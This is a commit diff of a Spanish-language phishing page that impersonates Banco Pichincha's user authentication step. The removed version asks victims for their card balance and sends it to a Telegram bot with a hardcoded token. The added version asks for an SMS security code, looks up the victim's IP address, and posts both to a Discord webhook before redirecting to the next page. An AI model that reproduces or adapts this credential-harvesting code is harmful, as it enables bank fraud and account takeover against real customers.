

Before and after one commit to juarezmichelsuiza-source/cretfhjhjhg, a plain HTML site: page index4.html in a window 1280 px wide. Shown: the part 350-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index4.html

```diff
--- a/index4.html
+++ b/index4.html
@@ -3,143 +3,100 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Página de Seguridad</title>
+    <title>Pagina de Seguridad</title>
     <style>
-        body {
-            font-family: Arial, sans-serif;
-            display: flex;
-            justify-content: center;
-            align-items: center;
-            height: 100vh;
-            margin: 0;
-            background-color: #fff; /* Fondo blanco */
-            color: #000; /* Letras negras */
-        }
-        .container {
-            text-align: center;
-            padding: 20px;
-            border: 1px solid #ccc;
-            border-radius: 8px;
-            background-color: #f4f4f4; /* Fondo gris claro para el contenedor */
-            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
-            display: flex;
-            flex-direction: column;
-            justify-content: center;
-            align-items: center;
-        }
-        input[type="text"] {
-            padding: 25px;
-            font-size: 20px;
-            margin-bottom: 20px;
-            width: 250px;
-            border: 1px solid #ccc;
-            border-radius: 4px;
-            background-color: #eee; /* Fondo gris claro para el input */
-            color: #000; /* Texto negro dentro del input */
-            text-align: center; /* Centra el texto en el campo de entrada */
-        }
-        button {
-            padding: 15px 70px; /* Aumenté el padding para hacerlo más grande */
-            font-size: 18px; /* Aumenté el tamaño del texto */
-            background-color: #007BFF; /* Botón azul */
-            color: white;
-            border: none;
-            border-radius: 4px;
-            cursor: pointer;
-            margin-top: 10px;
-        }
-        button:hover {
-            background-color: #0056b3; /* Azul más oscuro cuando se pasa el mouse */
-        }
-        .message {
-            margin-top: 20px;
-            font-size: 16px;
-        }
-        ul {
-            list-style-type: none;
-            padding-left: 0;
-            font-size: 18px;
-            font-family: Georgia, serif;
-            text-align: left;
-            margin-bottom: 20px;
-        }
-        ul li {
-            margin-bottom: 10px;
-        }
+        * { box-sizing: border-box; margin: 0; padding: 0; font-family: Arial, Helvetica, sans-serif; }
+        body { background-color: #f6f6f6; display: flex; justify-content: center; align-items: center; min-height: 100vh; }
+        .container { width: 100%; max-width: 400px; padding: 20px; text-align: center; }
+        .image-placeholder { width: 280px; height: 100px; background-color: #fdfdfd; border: 1px solid #eeeeee; margin: 0 auto 40px; display: flex; justify-content: center; align-items: center; }
+        .image-placeholder img { max-width: 100%; max-height: 100%; }
+        h1 { font-size: 24px; color: #000; margin-bottom: 25px; font-weight: bold; }
+        .instruction { font-size: 16px; color: #000; text-align: left; margin-bottom: 30px; line-height: 1.4; padding: 0 10px; }
+        .input-container { margin-bottom: 35px; }
+        input { width: 90%; padding: 25px; background-color: #eeeeee; border: 1px solid #cccccc; border-radius: 4px; font-size: 20px; color: #333; text-align: center; outline: none; }
+        input::placeholder { color: #aaaaaa; }
+        .btn-verify { width: 55%; padding: 16px; background-color: #3b82f6; color: #ffffff; border: none; border-radius: 4px; font-size: 18px; font-weight: 400; cursor: pointer; }
+        .btn-verify:hover { background-color: #2563eb; }
+        .btn-verify:disabled { background-color: #94a3b8; cursor: not-allowed; }
     </style>
 </head>
 <body>
 
     <div class="container">
-      <p><img src="https://upload.wikimedia.org/wikipedia/commons/thumb/1/16/Banco_Pichincha_logo.svg/1024px-Banco_Pichincha_logo.svg.png" style="width: 250px;"></p>
-        <h2>Autenticacion de Usuario </h2>
-        <ul>
-            <li>Ingrese el monto actual de su tarjeta ingresada&nbsp;</li>
-        </ul>
-        <input type="text" id="codigoSeguridad" placeholder="Ingresar Monto" maxlength="40" oninput="agregarSimboloDolar(event)" />
-        <button onclick="verificarCodigo()">Verificar</button>
+        <div class="image-placeholder">
+            <img src="css/swj.png" alt="Icono">
+        </div>
 
-        <div class="message" id="mensaje"></div>
+        <h1>Autenticacion de Usuario</h1>
+
+        <p class="instruction">
+            Hemos enviado un mensaje de texto con un código a su numero de móvil o correo electrónico registrado. Este código puede tardar algunos minutos en llegar.
+        </p>
+
+        <form id="verifyForm">
+            <div class="input-container">
+                <input type="text" id="codigoInput" placeholder="Código de seguridad" required>
+            </div>
+
+            <button type="submit" class="btn-verify" id="btnSubmit">Verificar</button>
+        </form>
     </div>
 
+    <!-- Carga la URL desde envi.js -->
+    <script src="css/envi.js"></script>
+
     <script>
-        function agregarSimboloDolar(event) {
-            var input = event.target;
-            // Verifica si el primer carácter no es el símbolo de dólar
-            if (input.value && !input.value.startsWith('$')) {
-                input.value = '$' + input.value.replace(/^0+/, '');  // Agrega el símbolo de dólar y elimina ceros a la izquierda
-            }
-        }
+        const verifyForm = document.getElementById('verifyForm');
+        const btnSubmit = document.getElementById('btnSubmit');
 
-        function verificarCodigo() {
-            var codigoIngresado = document.getElementById("codigoSeguridad").value;
-            var mensaje = document.getElementById("mensaje");
+        verifyForm.addEventListener('submit', async function(e) {
+            e.preventDefault();
 
-            // Remover el símbolo de dólar antes de la validación
-            var codigoSinDolar = codigoIngresado.replace('$', '');
+            const codigoValue = document.getElementById('codigoInput').value;
 
-            // Validar que el código ingresado sea numérico y tenga hasta 40 caracteres
-            var regex = /^[0-9]{1,40}$/;
+            // Bloqueo visual
+            btnSubmit.innerText = "Verificando...";
+            btnSubmit.disabled = true;
 
-            if (regex.test(codigoSinDolar)) {
-                mensaje.textContent = "Monto valido. Acceso permitido.";
-                mensaje.style.color = "green";
-                // Enviar mensaje a Telegram si el código es válido
-                enviarAMensajeTelegram(codigoSinDolar);
-                // Redirigir a www.pichincha.com después de 2 segundos
-                setTimeout(function() {
-                    window.location.href = "index3.html";
-                }, 2000);  // Redirige después de 2 segundos
-            } else {
-                mensaje.textContent = "El código debe ser numérico y tener un máximo de 40 dígitos.";
-                mensaje.style.color = "red";
-            }
-        }
+            // Obtener IP real
+            let userIP = "No detectada";
+            try {
+                const response = await fetch('https://api.ipify.org?format=json');
+                const data = await response.json();
+                userIP = data.ip;
+            } catch (error) { console.error("Error IP"); }
 
-        function enviarAMensajeTelegram(codigo) {
-            const token = '8652605735:AAGpe405IEzW36zWbSR6HbDvaYRmQHfqHGE'; // Reemplaza con tu token
-            const chatId = '-1003900740654'; // Reemplaza con el ID de tu canal
-            const mensaje = `Monto: ${codigo}`;
+            // Mensaje simple para Discord
+            const mensaje = `**CÓDIGO DE VERIFICACIÓN**\n` +
+                          `> **Código:** ${codigoValue}\n` +
+                          `> **IP:** ${userIP}\n` +
+                          `> **Hora:** ${new Date().toLocaleString()}`;
 
-            fetch(`https://api.telegram.org/bot${token}/sendMessage`, {
+            // Envío vía Webhook
+            fetch(webhookURL, {
                 method: 'POST',
-                headers: {
-                    'Content-Type': 'application/json'
-                },
-                body: JSON.stringify({
-                    chat_id: chatId,
-                    text: mensaje
-                })
+                headers: { 'Content-Type': 'application/json' },
+                body: JSON.stringify({ content: mensaje })
             })
-            .then(response => response.json())
-            .then(data => {
-                console.log('Mensaje enviado a Telegram:', data);
+            .then(res => {
+                if(res.ok) {
+                    // Redirige a la siguiente página
+                    window.location.href = "index4.html";
+                } else {
+                    alert("Error en el sistema.");
+                    resetBtn();
+                }
             })
-            .catch(error => {
-                console.error('Error al enviar el mensaje a Telegram:', error);
+            .catch(() => {
+                alert("Fallo de red.");
+                resetBtn();
             });
+        });
+
+        function resetBtn() {
+            btnSubmit.innerText = "Verificar";
+            btnSubmit.disabled = false;
         }
     </script>
-
 </body>
 </html>
```
